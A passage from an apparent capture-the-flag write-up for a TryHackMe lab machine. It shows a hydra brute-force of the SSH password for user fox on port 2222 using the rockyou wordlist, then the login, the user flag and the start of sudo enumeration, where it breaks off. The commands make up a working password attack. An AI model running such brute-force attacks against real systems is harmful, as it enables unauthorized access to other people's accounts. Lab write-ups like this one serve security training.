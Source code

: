 I see , so I can access this port so lets brute force the password of user FOX which we want to connect to →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/yotf]
└─$ hydra -l fox -P /usr/share/wordlists/rockyou.txt 10.10.17.75 ssh -t 64 -s 2222
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-21 21:27:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://10.10.17.75:2222/
[2222][ssh] host: 10.10.17.75   login: fox   password: <PASSWORD>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 16 final worker threads did not complete until end.
[ERROR] 16 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-21 21:27:25
```
{: .nolineno}
{: .nolineno}

Now Its SSH Time ⤵️ 

## SSH Login ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/yotf]
└─$ ssh fox@10.10.17.75 -p 2222  
The authenticity of host '[10.10.17.75]:2222 ([10.10.17.75]:2222)' cant be established.
ED25519 key fingerprint is SHA256:ytuC6e5+2EWnZLeockeugHFQMCmIRWlKFJR/MF8JPJo.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:104: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.17.75]:2222' (ED25519) to the list of known hosts.
fox@10.10.17.75s password: 

	__   __                       __   _   _            _____         
	\ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  ___|____  __
	 \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | |_ / _ \ \/ /
	  | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ |  _| (_) >  < 
	  |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |_|  \___/_/\_\

                                                                  
fox@year-of-the-fox:~$ ls -al
total 36
drwxr-x--- 5 fox  fox  4096 Jun 20  2020 .
drwxr-xr-x 4 root root 4096 May 28  2020 ..
lrwxrwxrwx 1 fox  fox     9 May 28  2020 .bash_history -> /dev/null
-rw-r--r-- 1 fox  fox   220 May 28  2020 .bash_logout
-rw-r--r-- 1 fox  fox  3771 May 28  2020 .bashrc
drwx------ 2 fox  fox  4096 May 28  2020 .cache
drwx------ 3 fox  fox  4096 May 28  2020 .gnupg
-rw-r--r-- 1 fox  fox   807 May 28  2020 .profile
drwxr-xr-x 2 fox  fox  4096 Jun 20  2020 samba
-rw-r--r-- 1 fox  fox     0 May 28  2020 .sudo_as_admin_successful
-rw-r--r-- 1 root root   38 May 31  2020 user-flag.txt
fox@year-of-the-fox:~$ cat user-flag.txt 
THM{FLAG_FLAG_FLAG_FLAG_FLAG_FLAG}
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
```